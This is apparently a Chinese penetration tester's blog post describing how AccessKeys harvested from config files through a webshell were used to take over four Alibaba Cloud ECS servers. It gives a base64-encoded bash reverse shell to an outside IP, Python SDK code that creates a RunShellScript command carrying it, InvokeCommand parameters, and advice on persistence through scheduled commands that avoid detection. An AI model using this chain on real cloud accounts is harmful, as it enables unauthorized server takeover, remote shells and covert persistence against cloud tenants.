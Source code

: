 ```yaml
---
date: "2019-04-02T00:00:00Z"
description: 项目中准备开展内网渗透的时候，信息搜集给我带来的收获……
title: 阿里云Access Token问题 - 项目收获记录
url: /archivers/2019-04-02/1
---
```


## 0x00 前言

Q：在获得权限较低的Webshell的情况下，如何继续扩大收获？

A：首先，信息搜集，分别包含：当前权限，主机网络环境、系统进程、网络连接状况、散落的凭证等，然后进行战略分析

1. 是否需要提权
2. 如何将流量带入（转发）
3. 结合搜集的信息转化出其他更好的思路

很巧，我遇到了第三种情况。

**Tips：内网渗透一般提权是最不可取的方案，我们只需要不断搜集信息、撕开一个流量口子即可。**

## 0x01 阿里云对象存储 - OSS

什么是对象存储？

阿里云对象存储服务（Object Storage Service，简称OSS），是阿里云对外提供的海量、安全、低成本、高可靠的云存储服务。您可以通过本文档提供的简单的REST接口，在任何时间、任何地点、任何互联网设备上进行上传和下载数据。基于OSS，您可以搭建出各种多媒体分享网站、网盘、个人和企业数据备份等基于大规模数据的服务。


通过Webshell在目标机器（Linux）的Web站点目录下发现多个子站配置文件`config.php`，配置了同一个阿里云的OSS地址，只是存储空间（Bucket）不同。

通常情况下一个阿里云oss地址的组成如下：


`http(s)://[BucketName].oss-cn-[Region].aliyuncs.com`

BucketName ：存储空间

Region：地域，目前有如下几个：

![2019-04-02-20-58-34](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b47095f0e521b2c64a785b3cbe165889.png)

例如：杭州 = cn-hangzhou



## 0x02 Access Token

Access Token = AccessKeyId + AccessKeySecret


OSS通过使用AccessKeyId/ AccessKeySecret对称加密的方法来验证某个请求的发送者身份。

AccessKeyId用于标示用户，AccessKeySecret是用户用于加密签名字符串和OSS用来验证签名字符串的密钥，其中AccessKeySecret必须保密，只有用户和OSS知道。AccessKey 根据所属账号的类型有所区分。

**阿里云账户AccessKey：阿里云账号提供的AccessKey拥有所属资源的全部操作权限**

RAM账户AccessKey：RAM账户由阿里云账号授权生成，所拥有的AccessKey拥有对特定资源限定的操作权限

STS临时访问凭证：由阿里云账号或RAM账号生成，所拥有的AccessKey在限定时间内拥有对特定资源限定的操作权限。过期权限收回。

[详细介绍](https://help.aliyun.com/document_detail/31867.html?spm=a2c4g.11186623.2.7.60c35869TaDn9K#concept-e4s-mhv-tdb)

## 0x03 通过Access Token接管ECS

ECS：云服务器（Elastic Compute Service，简称 ECS）是一种简单高效、处理能力可弹性伸缩的计算服务，帮助您快速构建更稳定、安全的应用，提升运维效率，降低 IT 成本，使您更专注于核心业务创新。

前面介绍到，默认情况下，阿里云用户获得的Access Token是对当前用户所有服务通用的令牌，在没有使用RAM账户的情况下，就可以使用SDK去操作阿里云所有产品。

在此次项目里，我接管了四台ECS，执行任意命令，获得最大权限。


首先，通过读取配置文件，获得了同于上传图片所需要认证的Access Token，如何检验是否可用的呢？


```
Access Key Id : *********
Access Secret : ***************************
Region : cn-*****
```

下面直接调用获取ECS实例的API即可，以往情况下，我会使用Python，安装阿里云的sdk-core库，但是现在能在线调试，大大的节省了本地调试的成本：

DescribeInstances - 获得实例信息

![2019-04-02-21-11-05](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e2155c603d701fd20696069aea984835.png)


只有第一个`RegionId`是必填项，点击`API Explorer`，可以直接进入调试环境：

![2019-04-02-21-12-38](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e7013aa30b06a0f6eb76ec22851c92b4.png)

服务器上的oss配置中刚好有RegionId，我就直接选择了，然后填入Access Token信息，就可以获得数据。

我是直接在`Alicloud Shell`里复制了一份运行的：

![2019-04-02-21-16-55](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/29658b26756b91ad7999c3586697f73a.png)

输出结果如下：

![2019-04-02-21-21-17](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/3729d18e5454db84dfdd66b91344ea8c.png)


使用`json.cn`格式化一下：

![2019-04-02-21-23-48](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6be7a9b9ceb7a55095aba804a63165dc.png)

共四台服务器，那么如何执行命令呢？

首先要创建一条命令，然后指定实例来调用命令，手册地址：

https://help.aliyun.com/document_detail/64844.html

命令的类型取值范围：

- RunBatScript：创建一个在 Windows 实例中运行的 Bat 脚本
- RunPowerShellScript：创建一个在 Windows 实例中运行的 PowerShell 脚本
- RunShellScript：创建一个在 Linux 实例中运行的 Shell 脚本

由于都是Linux，我就选择RunShellScript，注意：命令必须是base64encode


```
rvn0xsy@Rvn0xsy ~> echo "bash -i >& /dev/tcp/1.1.1.1/2333 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=
```

![2019-04-02-21-29-22](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/64788dbca11e1dfd99c53caae568dccc.png)

```
#!/usr/bin/env python
#coding=utf-8

from aliyunsdkcore.client import AcsClient
from aliyunsdkcore.acs_exception.exceptions import ClientException
from aliyunsdkcore.acs_exception.exceptions import ServerException
from aliyunsdkecs.request.v20140526.CreateCommandRequest import CreateCommandRequest

client = AcsClient('<accessKeyId>', '<accessSecret>', 'cn-shanghai')

request = CreateCommandRequest()
request.set_accept_format('json')

request.set_Type("RunShellScript")
request.set_CommandContent("YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=")
request.set_Name("test")

response = client.do_action_with_exception(request)
# python2:  print(response) 
print(str(response, encoding='utf-8'))

```

执行成功后，会返回如下信息：

```
{
	"RequestId": "********-****-****-****-********",
	"CommandId": "c-0************"
}
```

CommandId最好记下来，不然还要调用[DescribeCommands](https://api.aliyun.com/find/Ecs/DescribeCommands?spm=a2c1g.8271268.10000.91.169bdf25hVPFbi)


```
{
	"PageNumber": 1,
	"TotalCount": 1,
	"PageSize": 10,
	"RequestId": "********-****-****-****-********",
	"Commands": {
		"Command": [
			{
				"Name": "test",
				"Timeout": 3600,
				"CommandContent": "YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=",
				"Description": "",
				"Type": "RunShellScript",
				"CommandId": "c-0************",
				"WorkingDir": ""
			}
		]
	}
}
```

紧接着就是`InvokeCommand`：

- RegionId：区域ID，例如：cn-shanghai
- CommandId：命令ID
- InstanceId：实例ID
- Timed：命令是否为周期执行。 默认值：False
- Frequency：周期任务的执行周期，两次周期任务的时间间隔不能低于10秒。当参数 Timed 的值为 True 时，参数 Frequency 为必需参数。 该参数取值遵循Cron表达式，参阅[Cron表达式](https://help.aliyun.com/document_detail/64769.html?spm=a2c4g.11186623.2.21.755e1926kBOlWA)。

默认情况下，我们不需要管后面的参数，如果你想权限维持的话，可以设置Timed为False，并且设置Frequency为定时任务计划表达式，执行的过程中，基本上不会拦截，因为Access Token的调用，一切都是白名单的。

![2019-04-02-21-39-17](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/af5818d425ef9c61361044a26dd6e804.png)




